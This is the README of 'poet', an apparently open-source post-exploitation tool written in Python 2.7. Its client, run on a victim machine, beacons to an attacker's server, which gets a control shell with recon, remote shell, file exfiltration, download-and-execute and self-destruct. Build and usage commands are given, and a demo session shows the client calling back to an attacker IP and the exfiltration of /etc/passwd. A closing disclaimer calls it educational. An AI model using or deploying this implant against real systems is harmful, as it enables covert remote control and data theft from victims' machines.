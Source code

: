 # poet

A simple POst-Exploitation Tool.

## overview

The client program runs on the target machine and is configured with an IP
address (the server) to connect to and a frequency to connect at. If the server
isn't running when the client tries to connect, the client quietly sleeps and
tries again at the next interval. If the server is running however, the
attacker gets a control shell to control the client and perform various actions
on the target including:

- reconnaissance
- remote shell
- file exfiltration
- download and execute
- self destruct

## getting started

Go to the [releases](http://github.com/mossberg/poet/releases) page and
download the latest `poet-client.zip` and `poet-server.zip` files available.
Then skip to the Usage section below.

Alternatively, you can build Poet yourself (it's pretty easy). Make sure you
have the `python2.7` and `zip` executables available.

```
$ git clone https://github.com/mossberg/poet
$ cd poet
$ make
```

This will create a `build/` directory which contains `poet-client.zip`
and `poet-server.zip`.

Wondering why Poet is distributed as zip files rather than regular python
scripts?  This is because of shared code between the client and server and the
requirement that the client be a single file. Rather than manually keeping
copies of the shared code in sync between files, packaging the main and shared
code into a zip file that can be passed to the Python interpreter was a cleaner
solution.

## usage

Poet is super easy to use, and requires nothing more than the Python (2.7)
standard library. To easily try it out, a typical invocation would look like:

Terminal 1:

```
$ python2.7 poet-client.zip -v 127.0.0.1 1
```

Terminal 2:

```
$ sudo python2.7 poet-server.zip
```

Note:

- You **need** to specifically pass the zip files to the Python interpreter.
  Executing them as if they were a binaries a la `./poet-client.zip` will not
  work.
- By default, the server needs to be run as root (using `sudo`) because the
  default port it binds to is 443. If that makes you uncomfortable, simply omit
  `sudo` and use the `-p <PORT>` flag on both the client and server. Pick a
  nice, high number for your port (> 1024).

Of course, using the `-h` flag gives you the full usage.

```
$ python2.7 poet-client.zip -h
usage: poet-client.zip [-h] [-p PORT] [-v] [-d] IP [INTERVAL]

positional arguments:
  IP                    server
  INTERVAL              (s)

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
  -v, --verbose
  -d, --delete          delete client upon execution

$ python2.7 poet-server.zip -h
usage: poet-server.zip [-h] [-p PORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
```

## demo

This is just a small sample of what poet can do.

The scenario is, an attacker has gotten access to the victim's machine and
downloaded and executed the client (in verbose mode ;).  He/she does not have
the server running at this point, but it's ok, the client waits patiently.
Eventually the attacker is ready and starts the server, first starting a shell
and executing `uname -a`, then exfiltrating `/etc/passwd`. Then he/she exits
and detaches from the client, which continues running on the target waiting for
the next opportunity to connect to the server.

Victim's Machine (5.4.3.2):

```
$ python2.7 poet-client.zip -v 1.2.3.4 10
[+] Poet started with interval of 10 seconds to port 443. Ctrl-c to exit.
[!] (2015-03-27 03:40:12.259676) Server is inactive
[!] (2015-03-27 03:40:22.263161) Server is inactive
[!] (2015-03-27 03:40:32.267308) Server is inactive
[+] (2015-03-27 03:40:42.273376) Server is active
[!] (2015-03-27 03:41:07.145979) Server is inactive
[!] (2015-03-27 03:41:17.150634) Server is inactive
[!] (2015-03-27 03:41:27.155614) Server is inactive
[!] (2015-03-27 03:41:37.160440) Server is inactive
```

Attacker's Machine (1.2.3.4):

```
# python2.7 poet-server.zip
                          _
        ____  ____  ___  / /_
       / __ \/ __ \/ _ \/ __/
      / /_/ / /_/ /  __/ /
     / .___/\____/\___/\__/     v0.4
    /_/

[+] Poet server started on 443.
[+] (2015-03-27 03:40:42.272601) Connected By: ('5.4.3.2', 59309) -> VALID
[+] (2015-03-27 03:40:42.273087) Entering control shell
Welcome to psh, the Poet shell!
Running `help' will give you a list of supported commands.
psh > shell
psh > user@server $ uname -a
Linux lolServer 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed May 07 16:19:23 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
psh > user@server $ ^D
psh > exfil /etc/passwd
psh : exfil written to archive/20150327/exfil/passwd-201503274054.txt
psh > help
Commands:
  chint
  dlexec
  exec
  exfil
  exit
  help
  recon
  selfdestruct
  shell
psh > exit
[+] (2015-03-27 03:40:57.144083) Exiting control shell.
[-] (2015-03-27 03:40:57.144149) Poet server terminated.
```

## disclaimer

I am building Poet purely for my own education and learning experience.
The code is freely available because I think it might be useful to others
interested in learning about this sort of thing. Use it responsibly.
